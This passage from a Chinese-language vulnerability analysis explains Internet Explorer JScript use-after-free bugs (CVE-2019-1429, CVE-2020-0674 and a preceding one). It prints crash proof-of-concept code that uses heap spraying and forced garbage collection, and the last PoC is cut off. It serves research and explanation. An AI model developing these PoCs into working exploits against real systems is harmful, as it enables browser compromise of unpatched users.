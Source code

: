 ```
    alert(arguments[0]); // <- 触发crash
    return 0;
}
 
[0, 0].sort(uaf);

```

这个漏洞是一个由 Array.sort 函数导致的 UAF 漏洞，Jscript 代码没有将 sort 函数中的 arguments 属性加入 GC 追踪列表，导致在回调函数中可以强制触发垃圾回收机制，得到悬垂指针，后面再次访问该指针时即发生 UAF。

### CVE-2019-1429

第 3 个漏洞是 CVE-2019-1429，这个漏洞对应的 PoC 如下：

```
var spray = new Array();
 
function uaf() {
    // arguments未被GC追踪
    for (var i = 0; i < 20000; i++) {
        spray[i] = new Object();
    }
 
    arguments[0] = spray[5000];
 
    for (var i = 0; i < 20000; i++) {
        spray[i] = 1;
    }
 
    CollectGarbage();
    alert(arguments[0]); // <- 触发crash
}
 
var o = {toJSON:uaf}
JSON.stringify(o);

```

这个漏洞是一个由 toJSON 函数导致的 UAF 漏洞，Jscript 代码没有将 toJSON 函数中的 arguments 属性加入 GC 追踪列表，导致在回调函数中可以强制触发垃圾回收机制，得到悬垂指针，后面再次访问该指针时即发生 UAF。

 

细心的读者肯定已经发现了，这和 CVE-2019-1367 不就是同一个漏洞吗？是的，它们就是同一个漏洞，但是微软就是没有补好。

### CVE-2020-0674

最后一个漏洞是 CVE-2020-0674，我们来看一下这个漏洞的 PoC：

```
var depth = 0;
var spray_size = 10000;
var spray = new Array();
var sort = new Array();
var total = new Array();
 
for(i = 0; i < 110; i++) sort[i] = [0, 0];
for(i = 0; i < spray_size; i++) spray[i] = new Object();
 
function uaf(arg1, arg2) {
    // arg1, arg2等传入的参数未被GC追踪
    arg1 = spray[depth * 2];
    arg2 = spray[depth * 2 + 1];
    if(depth > 50) {
        spray = new Array();
        CollectGarbage();
```
